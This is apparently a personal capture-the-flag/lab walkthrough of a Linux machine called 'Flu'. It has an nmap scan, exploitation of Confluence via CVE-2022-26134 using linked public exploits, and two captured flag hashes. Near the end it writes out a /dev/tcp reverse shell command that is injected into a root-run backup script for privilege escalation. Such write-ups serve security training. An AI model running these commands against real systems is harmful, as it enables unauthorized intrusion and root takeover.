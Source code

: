 # Linux - Flu

---

### Host

```bash
192.168.245.41
```

### Scan

```bash
# Nmap 7.95 scan initiated Fri Jan 17 20:23:48 2025 as: /usr/lib/nmap/nmap --privileged -sCV -A -Pn -O -p- -oN nmap.md 192.168.245.41
Nmap scan report for 192.168.245.41
Host is up (0.037s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION

22/tcp   open  ssh      OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 02:79:64:84:da:12:97:23:77:8a:3a:60:20:96:ee:cf (ECDSA)
|_  256 dd:49:a3:89:d7:57:ca:92:f0:6c:fe:59:a6:24:cc:87 (ED25519)

8090/tcp open  http     Apache Tomcat (language: en)
| http-title: Log In - Confluence
|_Requested resource was /login.action?os_destination=%2Findex.action&permissionViolation=true
|_http-trane-info: Problem with XML parsing of /evox/about

8091/tcp open  jamlink?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 204 No Content
|     Server: Aleph/0.4.6
|     Date: Sat, 18 Jan 2025 01:26:06 GMT
|     Connection: Close
|   GetRequest: 
|     HTTP/1.1 204 No Content
|     Server: Aleph/0.4.6
|     Date: Sat, 18 Jan 2025 01:25:36 GMT
|     Connection: Close
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Access-Control-Allow-Origin: *
|     Access-Control-Max-Age: 31536000
|     Access-Control-Allow-Methods: OPTIONS, GET, PUT, POST
|     Server: Aleph/0.4.6
|     Date: Sat, 18 Jan 2025 01:25:36 GMT
|     Connection: Close
|     content-length: 0
|   Help, Kerberos, LDAPSearchReq, LPDString, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 414 Request-URI Too Long
|     text is empty (possibly HTTP/0.9)
|   RTSPRequest: 
|     HTTP/1.1 200 OK
|     Access-Control-Allow-Origin: *
|     Access-Control-Max-Age: 31536000
|     Access-Control-Allow-Methods: OPTIONS, GET, PUT, POST
|     Server: Aleph/0.4.6
|     Date: Sat, 18 Jan 2025 01:25:36 GMT
|     Connection: Keep-Alive
|     content-length: 0
|   SIPOptions: 
|     HTTP/1.1 200 OK
|     Access-Control-Allow-Origin: *
|     Access-Control-Max-Age: 31536000
|     Access-Control-Allow-Methods: OPTIONS, GET, PUT, POST
|     Server: Aleph/0.4.6
|     Date: Sat, 18 Jan 2025 01:26:11 GMT
|     Connection: Keep-Alive
|_    content-length: 0

1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8091-TCP:V=7.95%I=7%D=1/17%Time=678B0310%P=aarch64-unknown-linux-gn
SF:u%r(GetRequest,68,"HTTP/1\.1\x20204\x20No\x20Content\r\nServer:\x20Alep
SF:h/0\.4\.6\r\nDate:\x20Sat,\x2018\x20Jan\x202025\x2001:25:36\x20GMT\r\nC
SF:onnection:\x20Close\r\n\r\n")%r(HTTPOptions,EC,"HTTP/1\.1\x20200\x20OK\
SF:r\nAccess-Control-Allow-Origin:\x20\*\r\nAccess-Control-Max-Age:\x20315
SF:36000\r\nAccess-Control-Allow-Methods:\x20OPTIONS,\x20GET,\x20PUT,\x20P
SF:OST\r\nServer:\x20Aleph/0\.4\.6\r\nDate:\x20Sat,\x2018\x20Jan\x202025\x
SF:2001:25:36\x20GMT\r\nConnection:\x20Close\r\ncontent-length:\x200\r\n\r
SF:\n")%r(RTSPRequest,F1,"HTTP/1\.1\x20200\x20OK\r\nAccess-Control-Allow-O
SF:rigin:\x20\*\r\nAccess-Control-Max-Age:\x2031536000\r\nAccess-Control-A
SF:llow-Methods:\x20OPTIONS,\x20GET,\x20PUT,\x20POST\r\nServer:\x20Aleph/0
SF:\.4\.6\r\nDate:\x20Sat,\x2018\x20Jan\x202025\x2001:25:36\x20GMT\r\nConn
SF:ection:\x20Keep-Alive\r\ncontent-length:\x200\r\n\r\n")%r(Help,46,"HTTP
SF:/1\.1\x20414\x20Request-URI\x20Too\x20Long\r\n\r\ntext\x20is\x20empty\x
SF:20\(possibly\x20HTTP/0\.9\)")%r(SSLSessionReq,46,"HTTP/1\.1\x20414\x20R
SF:equest-URI\x20Too\x20Long\r\n\r\ntext\x20is\x20empty\x20\(possibly\x20H
SF:TTP/0\.9\)")%r(TerminalServerCookie,46,"HTTP/1\.1\x20414\x20Request-URI
SF:\x20Too\x20Long\r\n\r\ntext\x20is\x20empty\x20\(possibly\x20HTTP/0\.9\)
SF:")%r(TLSSessionReq,46,"HTTP/1\.1\x20414\x20Request-URI\x20Too\x20Long\r
SF:\n\r\ntext\x20is\x20empty\x20\(possibly\x20HTTP/0\.9\)")%r(Kerberos,46,
SF:"HTTP/1\.1\x20414\x20Request-URI\x20Too\x20Long\r\n\r\ntext\x20is\x20em
SF:pty\x20\(possibly\x20HTTP/0\.9\)")%r(FourOhFourRequest,68,"HTTP/1\.1\x2
SF:0204\x20No\x20Content\r\nServer:\x20Aleph/0\.4\.6\r\nDate:\x20Sat,\x201
SF:8\x20Jan\x202025\x2001:26:06\x20GMT\r\nConnection:\x20Close\r\n\r\n")%r
SF:(LPDString,46,"HTTP/1\.1\x20414\x20Request-URI\x20Too\x20Long\r\n\r\nte
SF:xt\x20is\x20empty\x20\(possibly\x20HTTP/0\.9\)")%r(LDAPSearchReq,46,"HT
SF:TP/1\.1\x20414\x20Request-URI\x20Too\x20Long\r\n\r\ntext\x20is\x20empty
SF:\x20\(possibly\x20HTTP/0\.9\)")%r(SIPOptions,F1,"HTTP/1\.1\x20200\x20OK
SF:\r\nAccess-Control-Allow-Origin:\x20\*\r\nAccess-Control-Max-Age:\x2031
SF:536000\r\nAccess-Control-Allow-Methods:\x20OPTIONS,\x20GET,\x20PUT,\x20
SF:POST\r\nServer:\x20Aleph/0\.4\.6\r\nDate:\x20Sat,\x2018\x20Jan\x202025\
SF:x2001:26:11\x20GMT\r\nConnection:\x20Keep-Alive\r\ncontent-length:\x200
SF:\r\n\r\n");
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 993/tcp)
HOP RTT      ADDRESS
1   38.66 ms 192.168.45.1
2   38.63 ms 192.168.45.254
3   38.68 ms 192.168.251.1
4   41.00 ms 192.168.245.41

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jan 17 20:27:10 2025 -- 1 IP address (1 host up) scanned in 201.92 seconds

```

---

## Walkthrough

- nothing on IP, try 8090 port.

![image.png](Linux%20-%20Flu%2017e553bebf0f802394d4d15fb8832b7f/image.png)

- version 7.13.6

![image.png](Linux%20-%20Flu%2017e553bebf0f802394d4d15fb8832b7f/image%201.png)

![image.png](Linux%20-%20Flu%2017e553bebf0f802394d4d15fb8832b7f/image%202.png)

- attempt #1

[https://github.com/AmoloHT/CVE-2022-26134](https://github.com/AmoloHT/CVE-2022-26134)

- we can execute the cmd, but try to get reverse shell, it seems doesn’t work.

![image.png](Linux%20-%20Flu%2017e553bebf0f802394d4d15fb8832b7f/image%203.png)

- attempt #2
- we find another exploit on github with the same cve, this one can generate a reverse shell.

[https://github.com/jbaines-r7/through_the_wire](https://github.com/jbaines-r7/through_the_wire)

![image.png](Linux%20-%20Flu%2017e553bebf0f802394d4d15fb8832b7f/image%204.png)

![image.png](Linux%20-%20Flu%2017e553bebf0f802394d4d15fb8832b7f/image%205.png)

- we get the reverse shell

![image.png](Linux%20-%20Flu%2017e553bebf0f802394d4d15fb8832b7f/image%206.png)

565f0fe7c0d2ba1d0a85b14c28f88801

- linpeas

![image.png](Linux%20-%20Flu%2017e553bebf0f802394d4d15fb8832b7f/image%207.png)

![image.png](Linux%20-%20Flu%2017e553bebf0f802394d4d15fb8832b7f/image%208.png)

![image.png](Linux%20-%20Flu%2017e553bebf0f802394d4d15fb8832b7f/image%209.png)

- not much thing found in peas.txt

- try pspy

![image.png](Linux%20-%20Flu%2017e553bebf0f802394d4d15fb8832b7f/image%2010.png)

- root user is performing backup.sh
- check if we have right to backup.sh

![image.png](Linux%20-%20Flu%2017e553bebf0f802394d4d15fb8832b7f/image%2011.png)

```bash
echo 'sh -i >& /dev/tcp/192.168.45.170/9091 0>&1' > [log-backup.sh](http://log-backup.sh/)
```

- wait to connect

![image.png](Linux%20-%20Flu%2017e553bebf0f802394d4d15fb8832b7f/image%2012.png)

9ae111c7f5a9e63d529a5dc13d683092